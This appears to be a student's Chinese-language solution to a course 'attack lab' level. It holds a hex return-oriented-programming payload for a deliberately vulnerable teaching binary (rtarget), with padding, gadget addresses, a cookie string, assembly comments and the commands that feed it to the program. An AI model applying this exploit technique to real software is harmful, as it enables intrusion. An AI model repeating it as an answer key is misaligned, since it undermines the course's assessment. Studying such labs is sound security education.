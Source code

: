 1. 编写文件 rl3hex.txt。内容为：  
    41 42 43 44 45 46 47 48 49 50  
    41 42 43 44 45 46 47 48 49 50  
    41 42 43 44 45 46 47 48 49 50  
    41 42 43 44 45 46 47 48 49 50 /\* 刚好40个字节 \*/  
    06 1a 40 00 00 00 00 00  
    c5 19 40 00 00 00 00 00  
    ab 19 40 00 00 00 00 00  
    48 00 00 00 00 00 00 00  
    dd 19 40 00 00 00 00 00  
    34 1a 40 00 00 00 00 00  
    27 1a 40 00 00 00 00 00  
    d6 19 40 00 00 00 00 00  
    c5 19 40 00 00 00 00 00  
    fa 18 40 00 00 00 00 00  
    35 39 62 39 39 37 66 61 00  
    /\*   
    movq %rsp, %rax  
    movq %rax, %rdi  
    popq %rax  
    movl %eax, %edx  
    movl %edx, %ecx  
    movl %ecx, %esi  
    lea (%rdi, %rsi, 1),%rax  # %rsi存的是偏移，%rdi存的是rsp2的位置  
    \*/

2. 把 rl3hex.txt 转换成 rl3raw.txt：
./hex2raw < rl3hex.txt > rl3raw.txt

3. 运行程序：
./rtarget -q < rl3raw.txt

